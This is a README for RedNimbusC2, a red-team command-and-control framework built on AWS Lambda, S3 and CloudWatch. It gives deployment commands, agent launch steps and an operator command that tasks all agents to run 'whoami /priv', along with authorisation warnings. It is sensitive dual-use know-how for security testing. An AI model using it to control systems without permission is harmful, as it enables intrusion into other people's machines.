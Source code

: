 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

Check out the [Pen Test HackFest presentation](docs/Serverless-C2-Michael-Long-PenTestHackFest2022.pdf) to learn more.

![alt text](images/nimbusC2_architecture.png)

## Demo

![](images/RedNimbusC2-Demo.gif)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not stable at this time.

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [AWS SDK for Python (Boto3)](https://aws.amazon.com/sdk-for-python/)
4. [Go](https://go.dev)
5. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
6. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
7. [Make](https://www.gnu.org/software/make/)
8. [Git](https://git-scm.com)

You can optionally use the provided Dockerfile to build a pre-configured docker container:

```bash
# build the RedNimbusC2 docker image
docker build -t red-nimbus-c2 .

# execute the red-nimbus-c2 container
docker run -it red-nimbus-c2 bash
```

Next, configure AWS CLI with your AWS access key ID and secret access key.

See [here](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html) for guidance on setting up AWS CLI.

```bash
aws configure
```

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy
```

Your C2 URL will be found in this file after deployment:

```
RedNimbusC2/nimbus_c2_url.json
```

Optionally deploy to a specific AWS account like so; see [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

```
make deploy AWS_PROFILE=<your_profile>
```

3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
# get your API Gateway URL from this file:
# RedNimbusC2/nimbus_c2_url.json
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view info about all sessions
nimbusc2.py --list-sessions
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd "exec-cmd" --args "whoami /priv"
```

### View Task Output

At this time you can view agent output in AWS CloudWatch.

A future enhancement will be added to integrate agent task output with the operator client terminal.

### Cleanup

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```
